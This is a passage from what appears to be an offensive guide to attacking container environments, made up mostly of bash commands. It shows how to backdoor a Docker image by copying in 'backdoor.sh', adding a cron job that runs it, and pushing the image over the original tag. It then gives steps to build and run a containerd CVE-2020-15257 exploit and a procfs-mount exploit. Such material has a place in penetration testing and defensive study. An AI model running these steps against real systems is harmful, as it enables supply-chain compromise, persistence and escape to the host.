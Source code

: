 ```bash

# Modify the image with a new layer
cat > Dockerfile << EOF
FROM target/webapp:latest
COPY malicious_layer/backdoor.sh /usr/local/bin/
RUN echo '*/5 * * * * /usr/local/bin/backdoor.sh > /dev/null 2>&1' >> /etc/crontab
EOF

# Build and push the malicious image
docker build -t target/webapp:latest .
docker push target/webapp:latest
```

## Advanced Container Exploitation Techniques

Beyond basic container escapes, several advanced techniques can be used to compromise containerized environments.

### Exploiting Container Runtime Vulnerabilities

#### containerd CVE-2020-15257 (Host Network Namespace Exposure)

```bash
# Check if vulnerable
containerd --version

# Clone the PoC
git clone https://github.com/cdk-team/CDK.git
cd CDK

# Build the exploit
go build -o cdk cmd/cdk/main.go

# Run the exploit
./cdk run shim-pwn
```

#### Docker/Kubernetes Shared Memory Attacks

```bash
# Clone the SYN-cook repository
git clone https://github.com/Metarget/cloud-native-security-handbook
cd cloud-native-security-handbook/container/mount-procfs

# Compile and run the exploit
gcc -o mount_procfs mount_procfs.c
./mount_procfs
```

### Kernel Exploit Techniques
